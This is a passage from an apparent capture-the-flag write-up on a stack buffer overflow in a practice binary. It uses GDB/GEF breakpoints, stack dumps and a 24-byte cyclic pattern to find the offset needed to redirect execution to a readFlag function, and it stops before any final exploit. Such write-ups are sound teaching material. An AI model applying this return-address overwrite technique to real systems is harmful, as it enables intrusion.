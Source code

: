 
lets insert breakpoint at `0x000000000040074a` and `0x0000000000400754`

```md
b*0x000000000040074a
Breakpoint 1 at 0x40074a
b*0x0000000000400754
Breakpoint 2 at 0x400754
```

hit `r` after we insert breakpoint to run the gdb

```md
stack
0x00007fffffffdac0│+0x0000: 0x00000000004005f0  →  <_start+0> xor ebp, ebp       ← $rax, $rsp, $rdi
0x00007fffffffdac8│+0x0008: 0x0000000000557755 ("UwU"?)
0x00007fffffffdad0│+0x0010: 0x00007fffffffdae0  →  0x0000000000000000    ← $rbp
0x00007fffffffdad8│+0x0018: 0x00000000004007ce  →  <main+46> mov eax, 0x0
0x00007fffffffdae0│+0x0020: 0x0000000000000000
0x00007fffffffdae8│+0x0028: 0x00007ffff7deb0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffdaf0│+0x0030: 0x00007ffff7ffc620  →  0x0005044800000000
0x00007fffffffdaf8│+0x0038: 0x00007fffffffdbd8  →  0x00007fffffffde18  →  "/mnt/d/Coding/CTFs/CTFHaha/bof1/bof1"

registers
$rbp   : 0x00007fffffffdad0  →  0x00007fffffffdae0  →  0x0000000000000000
$rsi   : 0x00007fffffffb420  →  "your input: "
$rdi   : 0x00007fffffffdac0  →  0x00000000004005f0  →  <_start+0> xor ebp, ebp
$rip   : 0x000000000040074a  →  <vuln+40> mov eax, 0x0
```

if we look at the stack before input, the rip points to the return address of the vuln function. To run the readFlag function we must replace `0x000000000040074a` by readFlag address.

so try to use the `cyclic` or `pattern create` in gef to find the offset (we know its 24 just to make sure)

```md
pattern create 24
aaaabaaacaaadaaaeaaafaaa
```

lets supply to our input

```md
stack
0x00007fffffffdac0│+0x0000: "aaaabaaacaaadaaaeaaafaaa"   ← $rax, $rsp, $r8
0x00007fffffffdac8│+0x0008: "caaadaaaeaaafaaa"
0x00007fffffffdad0│+0x0010: "eaaafaaa"   ← $rbp
0x00007fffffffdad8│+0x0018: 0x0000000000400700  →  <readFlag+41> sar DWORD PTR [rdx+0x20], 1
0x00007fffffffdae0│+0x0020: 0x0000000000000000
0x00007fffffffdae8│+0x0028: 0x00007ffff7deb0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffdaf0│+0x0030: 0x00007ffff7ffc620  →  0x0005044800000000
0x00007fffffffdaf8│+0x0038: 0x00007fffffffdbd8  →  0x00007fffffffde18  →  "/mnt/d/Coding/CTFs/CTFHaha/bof1/bof1"
```
